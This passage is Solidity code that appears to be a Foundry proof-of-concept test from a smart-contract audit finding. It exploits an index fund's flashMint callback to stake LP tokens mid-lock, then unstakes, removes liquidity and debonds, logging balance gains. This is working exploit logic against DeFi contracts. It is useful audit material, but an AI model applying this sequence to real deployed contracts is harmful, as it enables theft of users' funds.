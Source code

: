 ```solidity
        uint256 initialPairedBalance = IERC20(indexFund.PAIRED_LP_TOKEN()).balanceOf(address(this));

        // Approve tokens
        // IERC20(address(indexFund)).approve(address(indexFund), pTknToLp);
        IERC20(indexFund.PAIRED_LP_TOKEN()).approve(address(indexFund), pairedTokensToAdd);

        uint256 lpAmount = indexFund.addLiquidityV2(pTknToLp,pairedTokensToAdd,1000,block.timestamp);


        // Get initial staked LP balance
        address stakingPool = indexFund.lpStakingPool();

        // Deal tokens to the indexFund to simulate accumulated reward fees
        deal(address(indexFund), address(indexFund), 100e18);

        // function flashMint(address _recipient, uint256 _amount, bytes calldata _data) external override lock
        bytes memory data = abi.encode(indexFund, stakingPool, lpAmount);
        indexFund.flashMint(address(this), 0, data);

        IStakingPoolToken(stakingPool).unstake(lpAmount);

        address _podV2Pool = IStakingPoolToken(stakingPool).stakingToken();
        IERC20(_podV2Pool).approve(address(indexFund), lpAmount);
        indexFund.removeLiquidityV2(lpAmount,0,0,block.timestamp);
        address[] memory _tokens = new address[](1);
        uint8[] memory _percentages = new uint8[](1);
        indexFund.debond(IERC20(address(indexFund)).balanceOf(address(this)),_tokens, _percentages);

        uint256 peasAfter = IERC20(peas).balanceOf(address(this));
        uint256 PairedBalanceAfter = IERC20(indexFund.PAIRED_LP_TOKEN()).balanceOf(address(this));
        console.log("initial peas : ");
        console.log(peasBefore);
        console.log("after peas : ");
        console.log(peasAfter);
        console.log("initial paired : ");
        console.log(initialPairedBalance);
        console.log("after paired : ");
        console.log(PairedBalanceAfter);
    }

    function callback(bytes calldata data) external {
        (address indexFund, address stakingPool, uint256 lpAmount) = abi.decode(data, (address, address, uint256));
        address _podV2Pool = IStakingPoolToken(stakingPool).stakingToken();
        IERC20(_podV2Pool).approve(stakingPool, lpAmount);
        IStakingPoolToken(stakingPool).stake(address(this), lpAmount);
    }
```

